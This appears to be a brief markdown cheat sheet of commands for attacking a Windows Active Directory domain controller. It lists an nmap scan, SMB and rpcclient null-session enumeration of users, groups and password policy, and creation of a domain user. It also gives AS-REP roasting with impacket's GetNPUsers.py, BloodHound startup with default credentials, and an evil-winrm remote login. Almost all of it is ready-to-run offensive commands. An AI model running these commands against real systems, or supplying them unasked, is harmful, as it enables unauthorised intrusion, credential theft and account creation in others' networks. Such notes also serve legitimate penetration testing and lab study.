 ### Nmap Scan 
- `nmap -p 53,135,139,88,389,445,464,593,636,3268,3269,5985,9389,49676,49696,49674,49675,49667,49666 -sV -sC -T16 -Pn -oA $IP $IP`

### Get Domain name
- `smbmap -H $IP`

### rpcclient
- `rpcclient -U "" -N $DOMAIN` Connect to rpcclient
- `enumdomusers` Enumerate Domain Users
-  `queryuser $RID` Enumerate User
- `enumdomgroups` Enumerate Domain Groups
- `getdomwinfo` Domain Password Information 
- `createdomuser $NAME` ,`setuserinfo2 $NAME 24 $PASSWORD` Creating Domain User

<!-- -->
[Enumerating AD with rpcclient](https://www.hackingarticles.in/active-directory-enumeration-rpcclient/)

### AS-REP roasting
AS-REP roasting is only applicable when set `Accounts Does not Require Pre-Authentication`

 EXPLOITING:
- put all user's in a file names `users.txt`
- `GetNPUsers.py $DOMAIN -dc-ip $IP -usersfile users.txt`
GetNPUsers is in impacket

### BloodHound
starting BloodHound
- `sudo neo4j console`
- `bloodhound`
 <!-- -->
 
 Credentials
- `Username: neo4j`
- `Password: BloodHound`

<!-- -->

### Misc
- `smbmap -H $IP` list Samba shares
- `ruby evil-winrm.rb -i $IP -u $USER -p $PASS`